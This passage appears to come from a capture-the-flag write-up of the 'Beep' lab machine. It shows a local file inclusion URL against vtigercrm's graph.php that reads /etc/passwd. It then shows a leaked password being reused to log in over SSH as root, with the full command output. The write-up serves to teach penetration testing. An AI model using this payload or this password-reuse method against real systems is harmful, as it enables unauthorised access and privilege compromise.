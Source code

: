 Since I couldn't find any more publicly known exploits for the software installed, I remembered that the `webmin` service on port 10000 required a login.

![](./images/beep-webmin-login.png)

After doing some research on webmin, I learned that it used the UNIX `/etc/shadow` file to authenticate. Since I previously noticed password reuse in the `/etc/amportal.conf` file, I figured I might as well try enumerating the users that should have an interactive login session on the system and try logging in as each user with that password.

I first copied the `/etc/passwd` file from my web browser by exploiting the LFI vulnerability at `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action` and searching for users with an interactive login session:

```none
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

Starting from root, I tried reusing the `jEhdIekWmdjE` password to login as each user via SSH starting from `root`. Note that since the beep host is running a very old version of CentOS, it only works with weak cryptographic protocols, so I needed to specify one of the legacy key exchange algorithms to my SSH client in order to login:

```none
$ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
